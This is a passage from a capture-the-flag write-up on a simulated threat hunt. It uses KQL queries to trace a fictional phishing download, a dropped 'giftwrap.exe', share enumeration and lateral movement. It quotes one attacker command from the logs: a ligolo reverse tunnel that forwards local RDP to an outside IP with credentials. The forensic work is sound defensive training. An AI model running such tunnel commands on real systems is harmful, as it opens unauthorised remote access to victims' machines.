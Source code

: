 ```sql
OutboundNetworkEvents
| where url == "http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx"
```

**What time did Alabaster click on the malicious link? Make sure to copy the exact timestamp from the logs!**
`2023-12-02T10:12:42Z`

**What file is dropped to Alabaster's machine shortly after he downloads the malicious file?**
Assuming "shortly" here is an hour. We can use `between`. Note how I had to pass
the time stamp text to `datetime`.

```sql
FileCreationEvents
| where hostname == "Y1US-DESKTOP" and timestamp between(datetime(2023-12-02T10:12:42Z) .. datetime(2023-12-02T11:12:42Z))
```

We see two results, the first is the docx, and the second is the answer:
`C:\ProgramData\Windows\Jolly\giftwrap.exe`.

## Case 4
Analyzing what `giftwrap.exe` did.

**The attacker created an reverse tunnel connection with the compromised machine. What IP was the connection forwarded to?**
I couldn't find any data with `process_name` or `parent_process_name` set
to `giftwrap`. So I just listed all the events for that machine and then looked
at the events near the timestamp after download file event in the previous
answer.

```sql
ProcessEvents
| where hostname == "Y1US-DESKTOP"

# found this command
"ligolo" --bind 0.0.0.0:1251 --forward 127.0.0.1:3389 --to 113.37.9.17:22 --username rednose --password falalalala --no-antispoof
```

`113.37.9.17`

**What is the timestamp when the attackers enumerated network shares on the machine?**
The command is `net share`.

```sql
ProcessEvents
| where process_commandline has "net share"
```

`2023-12-02T16:51:44Z`

**What was the hostname of the system the attacker moved laterally to?**

> In other words, they move payloads from one endpoint to another and execute
> them. Adversaries do this with native utilities like net.exe

